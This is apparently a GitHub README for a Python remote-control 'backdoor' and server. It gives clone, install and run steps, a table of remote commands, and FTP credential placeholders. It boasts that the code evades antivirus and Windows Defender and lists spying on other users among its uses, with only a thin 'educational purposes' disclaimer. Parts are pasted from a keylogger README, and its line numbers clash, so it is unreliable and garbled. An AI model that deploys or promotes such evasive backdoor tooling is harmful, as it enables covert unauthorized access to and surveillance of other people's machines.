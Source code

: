 ## Backdoor-And-Serverr 🖥️🔍

This is a simple server-client Python application that allows you to remotely execute basic commands on the server from the backdoor. 

We can use this project to establish a connection between a server and backdoor , this code is personally crafted and succesful in bypassing the antivirus and windows defender 🍴✨



## Warning ⚠️☠️

**This project is intended for educational and research purposes only.**

Please use this code responsibly and only on devices and systems for which you have explicit authorization.

The author of this project are not responsible for any misuse or illegal activities involving this software.


## Installation Process 📥

First, clone the repository and navigate to the Keylogger directory:

```
$ git clone https://github.com/Advaidv121/Backdoor-And-Server && cd Backdoor-And-Server
```

Next, install Keylogger using pip3 with the following instructions:

For **Server.py**
```
$ pip install -r requirements.txt
```
For **Backdoor.py**
```
$ pip install -r requirements.txt
```

## Pre Execution ⏮️

On line number **36** of **server.py** file
```
36. ftp=FTP('xx.xxx.xx.xx') #replace 'xx.xxx.xx.xx'
```
On line number **36** of **backdoor.py** file
```
37. ftp.login('username','password')  #replace 'username' 'password'
```

## Execution 🏃‍♂️

Run the backdoor.py script on the machine you want to control:
```
python backdoor.py
```
Run the server.py script on the machine from which you want to control the server:
```
python server.py
```
This will establish a connection with the server, and you can start sending commands to be executed on the server.🛜

## Available Commands

Here's a table of the commands you can run on the server from the client:

| Command     | Description                   |
|-------------|-------------------------------|
| `ls`        | List files and directories    |
| `pwd`       | Print current working directory |
| `cd <dir>`  | Change current directory       |
| `cat <file>`| Display the contents of a file|
| `help`      | Show available commands       |
| `exit`      | Terminate the connection      |


## Potential Uses 💡

Keyloggers can be used for:

- Personal Control and File Backup: Ensure no one is using your computer in your absence. 🔒💼
- Self Analysis: Verify if your system is being accessed by someone else. 🕵️‍♂️💻
- Malicious Intent: Spy on other systems and users (Not recommended). 👀🚫"
